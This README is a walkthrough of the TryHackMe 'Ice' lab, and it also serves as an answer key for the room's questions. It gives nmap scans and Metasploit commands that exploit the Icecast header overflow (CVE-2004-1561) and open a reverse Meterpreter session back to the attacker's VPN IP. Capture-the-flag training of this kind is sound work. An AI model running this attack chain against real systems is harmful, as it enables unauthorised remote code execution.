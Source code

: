 # TryHackMe-ice-Walkthrough
Deploy &amp; hack into a Windows machine, exploiting a very poorly secured media server.

![ice bg](https://user-images.githubusercontent.com/120317751/230588239-c2b3596b-8fb5-460c-8556-2e9f9d72a5ae.png)


![ice](https://user-images.githubusercontent.com/120317751/230573629-a0156837-a602-42ed-ac27-d7dccee48dcc.jpg)


<br>

<h2>Download VPN File from Release Section :</h2>

Link: https://github.com/Sumit-CyberSecurity/TryHackMe-ice-Walkthrough/releases/download/ice/sumit5011.ovpn
 
 
 🔴 Important :  Please rename this VPN file as per your TryHackMe account username

<b><H2>Task 1 Connect</b></H2>
<br>

Click on Access Machine --> Click on OpenVPN (How to connect & config VPN)



![ice (1)-min](https://user-images.githubusercontent.com/120317751/230582828-2ae90b78-e403-45c7-a745-8c99c66e4f57.gif)

<br>

<b><H2>Task 2 Recon</b></H2>




![image](https://user-images.githubusercontent.com/120317751/230583696-bf067667-dbad-44cc-a79a-ea0aa36ee73b.png)

<B>Scan and enumerate our victim!</B>

Answer the questions below ----------------------------------------------------------------------------------------------------------------------------------------


Deploy the machine! This may take up to three minutes to start.

     No answer needed
         
Launch a scan against our target machine, I recommend using a SYN scan set to scan all ports on the machine. The scan command will be provided as a hint, however, it's recommended to complete the room 'Nmap' prior to this room.  

     No answer needed
         

Once the scan completes, we'll see a number of interesting ports open on this machine. As you might have guessed, the firewall has been disabled (with the service completely shutdown), leaving very little to protect this machine. One of the more interesting ports that is open is Microsoft Remote Desktop (MSRDP). What port is this open on?

     3389
           
Command: (Your Start Machine IP)

    sudo nmap -sT -sV -O -Pn 10.10.254.30 
           
           

![Screenshot from 2023-04-07 15-30-12](https://user-images.githubusercontent.com/120317751/230589653-59731a6c-d70d-4845-ba58-e52761203d58.png)


What service did nmap identify as running on port 8000? (First word of this service)

     Icecast
     
![Screenshot from 2023-04-08 22-48-33](https://user-images.githubusercontent.com/120317751/230734526-6883e1b8-d151-4b32-8318-144fd4a2b393.png)


Exploit 8000/tcp with Below command
 
     sudo nmap -sT -sV -O -Pn -p 8000 10.10.95.145
     
Output:

![Screenshot from 2023-04-08 22-53-56](https://user-images.githubusercontent.com/120317751/230734733-2672c950-e305-45ce-b63e-515319b35015.png)



What does Nmap identify as the hostname of the machine? (All caps for the answer)

     DARK-PC
     
Open Metasploit:

    msfconsole
    
![Screenshot from 2023-04-08 23-03-03](https://user-images.githubusercontent.com/120317751/230735200-56faf365-2ce7-4982-a982-51e36e574838.png)

        Search icecast
        
        
![Screenshot from 2023-04-08 23-07-42](https://user-images.githubusercontent.com/120317751/230735337-c5ede574-4dd4-41d9-888c-8cea76a72edc.png)


        use exploit/windows/http/icecast_header
  

![Screenshot from 2023-04-08 23-07-42](https://user-images.githubusercontent.com/120317751/230735593-68a0f040-4ab9-46b3-9bc8-70887c84b3a6.png)

         options
         
         
![Screenshot from 2023-04-08 23-16-11](https://user-images.githubusercontent.com/120317751/230735732-909b6421-e649-4217-8ba4-8e3a42a36b57.png)


         set rhosts 10.10.95.145
         

![Screenshot from 2023-04-08 23-20-04](https://user-images.githubusercontent.com/120317751/230735882-24c8babc-0dfc-4cbd-af1b-5b288719d988.png)


         set lhost 10.8.83.18     (VPN IP)
         
         
![Screenshot from 2023-04-08 23-23-50](https://user-images.githubusercontent.com/120317751/230736078-6b5e8588-b71c-4af7-879d-6d1d22100e60.png)

          exploit
          
          
![Screenshot from 2023-04-08 23-29-47](https://user-images.githubusercontent.com/120317751/230736204-cb2c9eb3-8e8a-4399-aec3-5580e8aaf839.png)

Type sysinfo after get meterpreter session   
   
        meterpreter > sysinfo 
        
![Screenshot from 2023-04-08 23-35-41](https://user-images.githubusercontent.com/120317751/230736425-e7fdc379-ff1c-4525-ad50-b3ed2b8fc467.png)


Finally get Hostname


![Screenshot from 2023-04-08 23-36-46](https://user-images.githubusercontent.com/120317751/230736452-303fb127-221c-4bb0-9885-d35c3bf7f5bf.png)



 
<b><H2>Task 3 Gain Access</b></H2>   

![Screenshot from 2023-04-08 00-02-27](https://user-images.githubusercontent.com/120317751/230659913-1bd61fde-2956-4235-bccd-54edef6b37ac.png)


Exploit the target vulnerable service to gain a foothold!

Answer the questions below ----------------------------------------------------------------------------------------------------------------------------------------


Now that we've identified some interesting services running on our target machine, let's do a little bit of research into one of the weirder services identified: Icecast. Icecast, or well at least this version running on our target, is heavily flawed and has a high level vulnerability with a score of 7.5 (7.4 depending on where you view it). What type of vulnerability is it? Use https://www.cvedetails.com for this question and the next.

     execute code overflow
     
Visit https://www.cvedetails.com & search icecast


![Screenshot from 2023-04-09 00-19-50](https://user-images.githubusercontent.com/120317751/230738074-de13e842-9a17-4f52-9b66-951e8aec4379.png)

Choose Icecast : Security vulnerabilities

![Screenshot from 2023-04-09 00-26-34](https://user-images.githubusercontent.com/120317751/230738308-b5f9fa4d-955d-401b-b261-374f8acdad77.png)

     

What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

      CVE-2004-1561
      
Now that we've found our vulnerability, let's find our exploit. For this section of the room, we'll use the Metasploit module associated with this exploit. Let's go ahead and start Metasploit using the command `msfconsole`      

       No answer needed


After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? This module is also referenced in 'RP: Metasploit' which is recommended to be completed prior to this room, although not entirely necessary. 

      exploit/windows/http/icecast_header
      

Let's go ahead and select this module for use. Type either the command `use icecast` or `use 0` to select our search result.

        No answer needed
        
Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank?

         rhosts

         

First let's check that the LHOST option is set to our tun0 IP (which can be found on the access page). With that done, let's set that last option to our target IP. Now that we have everything ready to go, let's run our exploit using the command `exploit`

         No answer needed






